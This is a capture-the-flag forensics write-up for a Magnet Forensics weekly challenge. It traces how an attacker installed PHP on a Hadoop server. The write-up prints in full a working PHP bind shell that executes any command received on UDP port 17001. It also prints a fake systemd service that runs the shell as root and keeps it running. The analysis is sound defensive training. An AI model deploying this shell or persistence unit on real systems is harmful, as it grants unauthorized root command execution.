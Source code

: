 ```yaml
---
title: Magnet Weekly CTF 8 - Incident Response
excerpt: Solution to the Magnet Forensics CTF 8th week challenge. This week's challenge asks about some installed packages and a compromise. 
tags: magnet-ctf ctf
author: rms
---
```


### Challenge 1 – 15pts

> What package(s) were installed by the threat actor? Select the most correct answer!

This challenge asks us to find a package installed by the threat actor. We know from past weeks that `apt` is used on this system to install packages. Looking at the `apt` log file found at `/var/log/apt/history.log` shows an interesting last package. 

```
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.0-fpm:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-opcache:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-common:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php:amd64 (1:7.0+35ubuntu6.1), php7.0-json:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-readline:amd64 (7.0.33-0ubuntu0.16.04.6, automatic)
End-Date: 2019-10-07  01:30:41
```

This particular package was the last package installed and the only package installed since 2017. It's likely this image was made in response to the attack, and it makes sense the last package installed was installed by the attacker, especially with such a time difference. Entering in `php` reveals it is indeed the correct solution. 

### Challenge 2 - 5pts

Solving the first question releases another challenge.

> Why?
    - Hosting a database
    - Serving a webpage
    - To run a php webshell
    - Create a fake systemd service

Hm. Why would a threat actor install php of all things? Maybe the bash history recorded some commands the attacker ran. Grepping the `.bash_history` file under `/home/hadoop` for `php` reveals a single command:

```
ll /usr/local/hadoop/bin/cluster.php
```

Interesting. The contents of that file:

```
<?php

error_reporting(0);

$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;

        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
}
else {  exit;   }

?>
```

Ah. This php script loads a bind shell on port `17001` that can execute commands using `shell_exec`. This rules out using php for `Hosting a database`, `Serving a webpage`, and `To run a php webshell`. So the solution must be `Create a fake systemd service`? Lets double check. 

Using `ls -la etc/systemd/system/` we can see the system services:

```
drwxr-xr-x 12 root root 4096 Oct  6  2019 .
drwxr-xr-x  5 root root 4096 Nov  7  2017 ..
-rw-rw-r--  1 root root  246 Oct  6  2019 cluster.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 default.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 final.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 getty.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 graphical.target.wants
lrwxrwxrwx  1 root root   38 Nov  7  2017 iscsi.service -> /lib/systemd/system/open-iscsi.service
drwxr-xr-x  2 root root 4096 Oct  6  2019 multi-user.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 network-online.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 paths.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 sockets.target.wants
lrwxrwxrwx  1 root root   31 Nov  7  2017 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 sysinit.target.wants
lrwxrwxrwx  1 root root   35 Nov  7  2017 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 timers.target.wants
```

Hm. `clsuter.php` and `cluster.service`... Let's check that out with `cat etc/systemd/system/cluster.service`. 

```
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

So a bind shell is created using `cluster.php` which is started via a systemd service! Entering `Create a fake systemd service` reveals it is the correct solution!